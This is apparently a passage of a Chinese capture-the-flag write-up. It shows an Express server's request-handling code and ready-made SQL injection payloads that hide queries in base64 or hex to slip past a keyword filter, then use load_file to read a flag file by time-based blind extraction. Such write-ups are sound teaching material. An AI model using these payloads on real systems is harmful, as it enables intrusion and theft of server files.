 ```
                        request(options, function(err, dnsRes, body)`{`
                            let jsonRes;
                            try `{`
                                jsonRes = JSON.parse(body);
                            `}`catch(err)`{`
                                res.status(400).send("Bad request body");
                                return;
                            `}`
                            try `{`
                                const ip = jsonRes["Answer"][0]["data"];
                                if(isPrivate(ip))`{`
                                    try`{`
                                        request.get("http://" + results[0].vurl);
                                    `}` catch(err)`{`
                                        console.log("get request failed");
                                    `}`
                                    res.status(200).send("Thank you! The vendor has been notified");
                                `}`else`{`
                                    res.status(403).send("Thank you! But the address the vendor provided is improper, we will let them know next time we see them");
                                `}`
                            `}`catch(err)`{`
                                res.status(403).send("Thank you! But the address the vendor provided is improper, we will let them know next time we see them");
                            `}`
                        `}`)
                    `}`
                `}`
            `}`else`{`
                res.status(404).send("Stockid not found");
            `}`
        `}`);
    `}`else`{`
        res.status(400).send("Bad request");
    `}`
`}`);

app.listen(31337, () =&gt; `{`
    console.log("express listening on 31337");
`}`);
```

看过滤的KEYWORDS就大概可以猜出有注入，在insert那有注入，几个参数都可控，都是注册传入的参数。flag从给的源码压缩包中的dockerfile看是要`load_file`读`/home/ctf/flag.txt`，但是几个关键字都给过滤了。这里用预编译语句+16进制，或者用base64绕过这些过滤，有两种方法做接下来，一种外带回显，一种时间盲注。

先说简单的时间盲注

```
# (select if((select substr(load_file('/home/ctf/flag.txt'),1,1)) like binary 'f',sleep(6),1))

`{`"stockid":"2555","name":"aa","quantity":"0","vurl":"sf'); set @s=(select from_base64('c2VsZWN0IGlmKChzZWxlY3Qgc3Vic3RyKGxvYWRfZmlsZSgnL2hvbWUvY3RmL2ZsYWcudHh0JyksMSwxKSkgbGlrZSBiaW5hcnkgJ2YnLHNsZWVwKDYpLDEp'));PREPARE gsgs FROM @s;EXECUTE gsgs;#"`}`

`{`"stockid":"2560","name":"aa","quantity":"0","vurl":"sf'); set @s=(select x'73656c656374206966282873656c65637420737562737472286c6f61645f66696c6528272f686f6d652f6374662f666c61672e74787427292c312c312929206c696b652062696e617279202766272c736c6565702836292c3129');PREPARE gsgs FROM @s;EXECUTE gsgs;#"`}`
```
